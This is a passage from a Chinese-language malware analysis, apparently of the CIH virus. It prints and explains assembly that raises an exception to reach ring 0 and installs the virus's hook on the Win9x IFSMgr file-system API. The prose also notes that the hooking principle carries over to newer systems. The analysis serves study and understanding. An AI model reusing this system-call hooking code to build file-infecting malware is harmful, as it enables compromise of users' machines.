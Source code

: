 ## 挂钩系统调用

```
; *************************************
; * Generate Exception Again *
; *************************************

int HookExceptionNumber ; GenerateException Again
```

接下来第二次调用int指令进入MyExceptionHook。接着会跳到InstallMyFileSystemApiHook。

```
InstallMyFileSystemApiHook:

lea eax, FileSystemApiHook-@6[edi]

push eax ;
int 20h ; VXDCALL IFSMgr_InstallFileSystemApiHook
IFSMgr_InstallFileSystemApiHook = $ ;
dd 00400067h ; Use EAX, ECX, EDX, and flags

mov dr0, eax ; Save OldFileSystemApiHook Address

pop eax ; EAX = FileSystemApiHook Address

; Save Old IFSMgr_InstallFileSystemApiHook Entry Point
mov ecx, IFSMgr_InstallFileSystemApiHook-@2[esi]
mov edx, [ecx]
mov OldInstallFileSystemApiHook-@3[eax], edx

; Modify IFSMgr_InstallFileSystemApiHook Entry Point
lea eax, InstallFileSystemApiHook-@3[eax]
mov [ecx], eax

cli

jmp ExitRing0Init
```

顾名思义，以上代码就是把病毒的文件处理函数hook到系统调用中。采用的是一种已经被Windows废弃了的技术，叫做VXD，这种技术只能在win9x系统上才能使用，到了WinNT已经不能使用了。

但实际上原理是一样的，主要的目的是挂钩文件操作函数的系统调用，方法也大同小异，先获取旧的系统调用地址，使用我们的调用函数替换旧的函数，执行完我们的功能后回到旧的地址。

花开两枝，我们各表一支。到这里我们先记住，病毒安装了一个系统调用钩子，当执行文件操作的时候，会运行到我们的钩子函数里面。

这里我们看到，安装完钩子以后，会跳到ExitRing0Init，退出ring0状态。

```
ExitRing0Init:
mov [ebx-04h], bp ;
shr ebp, 16 ; Restore Exception
mov [ebx+02h], bp ;

iretd
```


[^1st]: <https://www.geekpark.net/news/212936>
[^2nd]: <https://www.anquanke.com/post/id/164959>
